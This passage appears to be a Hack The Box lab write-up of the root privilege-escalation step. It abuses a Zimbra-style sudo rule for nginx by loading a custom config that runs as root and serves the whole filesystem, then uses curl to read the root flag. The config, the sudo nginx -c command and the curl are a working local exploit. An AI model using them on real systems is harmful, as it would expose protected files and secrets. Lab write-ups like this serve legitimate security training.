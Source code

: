 From the machine info, we get a hint that the Machine replicates a recent Zimbra vulnerability.

**BRIEF EXPLANATION OF ZIMBRA VULNERABILITY**
Certain Zimbra versions allowed an attacker to run Nginx server as root without prompting a user for a password. This also let an attacker to force the Nginx server to run using a custom configuration file. For this particular exploit, the attacker forced the Nginx server to run as root and fetch files that would typically only be accessed by the root user.

More on the exploit is here: https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/

On our attack machine, create a configuration file and paste the following:
```sh
user root; 
events { worker_connections 1024; 
	} 
http { 
	server { 
		listen 1337;
		root /; 
		autoindex on; 
		} 
	}
```

**SCRIPT EXPLANATION**
- **user root;**: Sets the user to `root` 
- **events { worker_connections 1024; }**: Configures the maximum number of simultaneous connections per worker process.
- **http { server { ... } }**: Defines an HTTP server configuration.
- **listen 1337;**: Configures the server to listen on port `1337`.
- **root /;**: Sets the document root to the filesystem root
- **autoindex on;**: Enables automatic directory listing.

After that start a python server on the target machine and upload the configuration file to the target's /tmp directory.

Now to execute the sudo command. Typically we would run the nginx server using `sudo /usr/sbin/nginx` as per the output of the `sudo -l` command but we are going to add something to the command so that the webserver runs using our custom configuration file that will make it run with root privileges.
```sh
sudo /usr/sbin/nginx -c <path to file>
```
- `-c`: tells the web server the config file to be used

Once the command executes, we can fetch files from the web server using curl:
Typically root flags in HTB boxes are stored in the root directory hence the reason for the specified path.
```sh
curl localhost:1337/root/root.txt
```
**ROOT FLAG**
![img-description](7.png)
